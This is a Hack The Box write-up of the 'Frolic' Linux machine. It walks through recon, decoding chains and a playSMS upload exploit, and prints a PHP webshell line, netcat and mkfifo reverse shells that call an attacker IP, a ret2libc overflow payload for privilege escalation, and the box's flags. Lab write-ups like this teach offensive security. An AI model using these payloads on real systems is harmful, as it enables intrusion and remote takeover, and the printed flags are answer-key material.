# Hack The Box - Frolic | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Linux Box &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `10.129.58.86` &nbsp;•&nbsp; **Time taken:** 40 mins
>
> **Author:** Jithin Jelson

---

## Introduction

The box we will be exploiting today is called Frolic and it is a Hack The Box machine with a Linux operating system.

---

## Assessment Overview


```mermaid
flowchart LR
    A["Nmap<br/>-sVC"]:::entry --> B{"Open ports"}:::intel
    B --> C["SSH 22"]:::ioc
    B --> D["Samba<br/>139 and 445"]:::ioc
    B --> E["nginx 9999"]:::ioc
    B --> F["Node-RED 1880"]:::ioc

    F --> G["Default creds<br/>and CVE PoC<br/>both fail"]:::payload

    E --> H["ffuf on 9999"]:::intel
    H --> I["admin panel<br/>cmon i m hackable"]:::intel
    H --> J["backup dir<br/>password.txt"]:::intel
    H --> K["dev backup<br/>playsms dir"]:::intel

    J --> L["admin imnothuman<br/>dead end"]:::payload

    I --> M["JS source has<br/>superduperlooperpassword"]:::mitre
    M --> N["success.html<br/>Ook code"]:::mitre
    N --> O["asdiSIAJJ0QWE9JAS dir<br/>Base64 zip"]:::mitre
    O --> P["zip2john and rockyou<br/>password"]:::mitre
    P --> Q["Hex to Base64<br/>to Brainfuck chain"]:::mitre
    Q --> R{"playSMS password"}:::intel

    K --> R
    R --> S["playSMS 1.4<br/>sendfromfile.php<br/>CSV upload RCE"]:::payload
    S --> T["PHP reverse shell<br/>www-data"]:::user

    T --> U["user.txt<br/>home ayush"]:::user
    T --> V["SUID rop binary<br/>owned by root"]:::payload
    V --> W["ret2libc<br/>ASLR off, libc offsets"]:::payload
    W --> X["root.txt"]:::user

    classDef entry fill:#1d4ed8,stroke:#1e3a8a,color:#ffffff
    classDef ioc fill:#0f766e,stroke:#134e4a,color:#ffffff
    classDef intel fill:#7c3aed,stroke:#5b21b6,color:#ffffff
    classDef mitre fill:#b45309,stroke:#78350f,color:#ffffff
    classDef payload fill:#be123c,stroke:#881337,color:#ffffff
    classDef user fill:#15803d,stroke:#14532d,color:#ffffff
    linkStyle default stroke-width:2px
```

---

## What I Learned

- Using `zip2john` to convert a password-protected archive into a PKZIP hash and cracking it with John the Ripper against the rockyou wordlist.
- Running the `file` command on a Base64-decoded blob to identify its magic bytes, which showed it was a zip archive I could rename and unzip.
- Cycling through several PHP reverse shell payloads (raw `nc`, `bash -i`, mkfifo pipe) until one actually connected back to my listener.

---

## Recon and Node-RED Login

We can start off with an Nmap scan enumerating all services and versions and running the default NSE scripts with `-sC`.

```
nmap 10.129.58.86 -sVC
```



*Figure 1 - Nmap output showing SSH, Samba and nginx on port 9999, plus the nginx welcome page referencing frolic.htb:1880.*

It seems we have HTTP on an unusual port 9999 and when we open it, it is asking us to redirect to frolic.htb at a different port, so we can add this to our `/etc/hosts`.



*Figure 2 - Adding frolic.htb to /etc/hosts and reaching the Node-RED login page on port 1880.*

We only need to add the IP address as the port is not required, as the IP only resolves to hostname. Here we can see it is a Node-RED login page so we can google to see if there are any default credentials for this.

Online said the default was admin/password but this didn't work, so we also tried a few other default credentials, with no success. We enumerated the access point using ffuf but it seems we couldn't access any of the endpoints.



*Figure 3 - ffuf on port 1880 and view-source of the Node-RED page.*

---

## Node-RED Exploit Attempts

So our next step was to see if there was a vulnerability on searchsploit. We didn't come across anything on searchsploit but this one online says we can access it unauthenticated.



*Figure 4 - CVE writeup for a Node-RED unauthenticated RCE.*

We found a GitHub with how this code can be executed, so we put it into AI to help us understand exactly what was happening in this instance.



*Figure 5 - Public GitHub PoC that targets the Node-RED /flows endpoint.*

However this script did not work, as it required unauthenticated access to `/flows`, which the server did not allow. So we went back to the other web page we first went to at port 9999, and we tried enumerating and we found a few valuable endpoints.

---

## Enumerating Port 9999



*Figure 6 - ffuf on port 9999 finding /admin, /test, /dev, /backup, /loop, and the "c'mon i m hackable" login page at /admin.*

I suppose this is the page we are looking for `/admin`. The `/test` directory revealed to us that it is PHP 7.0. Perhaps we can searchsploit for this. Then we went to `/backup` and we found the following.



*Figure 7 - The /backup directory exposes password.txt, user.txt and loop/.*

And then when we went to the endpoint `/backup/password.txt` and `/backup/user.txt` we got the username `admin` and password `imnothuman`.



*Figure 8 - password.txt reveals admin / imnothuman.*

We tried this on all of our login endpoints but it seemed there was no success. We tried on Node-RED, the admin panel and the SSH.



*Figure 9 - SSH login with admin fails; permission denied on every attempt.*

---

## playSMS Discovery

We also then found a `/dev/backup` using feroxbuster and it seems we had a `/playsms` directory, in which we tried the password and username we got, and the default credentials, of which neither worked.



*Figure 10 - feroxbuster on port 9999 and the playSMS login page.*

Upon a google it seems 1.4.3 has an SSTI vulnerability so we can have a closer look at this. It seems it is an SSTI vulnerability, so we can google into this to see if we can find code that will help us exploit this.

Upon closer inspection it seems the exploit requires us to get our CSRF token and then put a template injection in Base64 in the username field, so we can open up Burp Suite and try this by sending it to Repeater.



*Figure 11 - Burp Repeater sending the Base64-encoded template injection in the X-CSRF-Token / username field.*

This didn't seem to work. Perhaps we can try and upload a reverse shell like the script says. However this did also not work. Inside the file it says created in 2024 and it seems the box was created 2018. In the text inside it mentions it works on frolic.htb and was tested on the Metasploit module, but since it is 2024 there's probably another exploit we are meant to use, and we will try and use msfconsole to exploit the SSTI after we get this.

---

## Admin Panel Source Code Bypass

So we went back to the original site that said "c'mon i m hackable" and when we tried to intercept the request we realised nothing is happening, so it seems all of it is managed in the front end instead of the backend. So we opened the JS file in the source code and we found the following.



*Figure 12 - view-source of the /admin page shows a client-side check: username == "admin" and password == "superduperlooperpassword" redirect to success.html.*

So we just run that password with `admin` to get in. We then get redirected to this.



*Figure 13 - /admin/success.html rendering a wall of dots, question marks and exclamation marks.*

---

## Decoding the Ook and Base64 Chain

So we searched it on google and it seems Gemini told us that it is Ook programming language, so we decided to decode it.



*Figure 14 - dCode Ook interpreter decoding the block to "Nothing here check /asdiSIAJJ0QWE9JAS".*

And we got a new directory.

So we check it out. In this directory we got a Base64 file but it had a lot of spaces, as Base64 does not have spaces. We decoded it and now we got the following.



*Figure 15 - Pasting the cleaned Base64 into base64decode.org and getting binary output that starts with PK.*

Seems that this is a file, as we can see `index.php`. We can run `file` against this to see what it is exactly in our terminal after decoding it.

```bash
base64 -d base64.64 > base64
file base64
```



*Figure 16 - The `file` command reports "Zip archive data, made by v3.0 UNIX".*

We can see it is a zip file, so we can rename it to be `base64.zip` and unzip it.



*Figure 17 - unzip on base64.zip asks for a password on index.php.*

However when we tried to unzip it, it asked us for a password, and it wasn't any password we tried already, so we can use zip2john to crack it. After we get the hash we can move this hash into a file called `base64.zip.hash`.

```bash
zip2john base64.zip > base64.zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt base64.zip.hash
```



*Figure 18 - John cracks base64.zip.hash against rockyou.txt in under a second.*

Password is `password`.

---

## Hex, Base64 and Brainfuck Chain

And it seems we have another code which is hex.



*Figure 19 - cat of the extracted index.php showing a long hex-encoded string.*

Which then gave us Base64, which then gave us Brainfuck coding language, and then we finally got this.



*Figure 20 - Passing the last stage through the dCode Brainfuck interpreter to reveal the final string `idkwhatispass`.*

Which seems like it is a password, which we can try on our endpoints now, and we got access into our playSMS.



*Figure 21 - playSMS Information page after logging in as admin with the decoded password.*

---

## Authenticated RCE in playSMS

We can now search for another script to see if we can get RCE. We can check out the authenticated one, since we have authentication.

```bash
searchsploit playsms
```



*Figure 22 - searchsploit lists PlaySMS 1.4 sendfromfile.php authenticated code execution (php/remote/44599.rb).*

It seems we can upload PHP code into the following URL.



*Figure 23 - The exploit PoC pointing at index.php?app=main&inc=feature_sendfromfile&op=upload_confirm.*

However it seems we need it in a specific format 1,2,3, so we can do the following.

```
<?php system($_GET['cmd']); ?>,2,3
```



*Figure 24 - shell.php containing the PHP `system` one-liner in the required CSV format.*

And then we tried to upload another shell it worked.

---

## Reverse Shell and User Flag

```bash
echo "<?php system('nc 10.10.15.110 4444 -e /bin/sh'); ?>,2,3" > shell.php
echo "<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.110 4444 >/tmp/f'); ?>,2,3" > shell.php
```



*Figure 25 - Cycling through nc, bash -i and mkfifo payloads until one connected back to the listener on 4444.*

Now we can upgrade our terminal.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm
```

And we got user.



*Figure 26 - Reading /home/ayush/user.txt as www-data.*

**Answer:** `d7e74825f9d6d89b2aa1e04e2af4a881`

---

## Ret2libc on the rop SUID Binary

When we do `ls -la` we can see that the SUID for `rop` is owned by root, which means running it as www-data will give root.



*Figure 27 - /home/ayush/.binary/rop has -rwsr-xr-x and is owned by root.*

When we try to send a message we are successful. The program doesn't seem to be checking how long the message is, so we can try and crash it.

```bash
/home/ayush/.binary/rop $(python -c 'print("A"*500)')
```



*Figure 28 - Passing 500 A's triggers a Segmentation fault (core dumped).*

The segmentation fault confirms it. Now we can confirm if ASLR is off. We ran this and we got 0.

```bash
cat /proc/sys/kernel/randomize_va_space
```

Next we found the libc base address.

```bash
ldd /home/ayush/.binary/rop
```

And the offset to `system`.

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep " system@"
```

And we get:

```
1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

Now we find the offset to `exit`, so we can exit after `system("/bin/sh")` finishes the program.

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep " exit@"
```

Now we can find the `/bin/sh` string.

```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```

And construct our payload.

```bash
cd /home/ayush/.binary
./rop $(python -c 'print("a"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7" + "\x0b\x4a\xf7\xb7")')
```

And we are root.



*Figure 29 - `whoami` returns root and `cat /root/root.txt` prints the root flag.*

**Answer:** `9f8706096b6b4ef0e39eb485413cc01b`
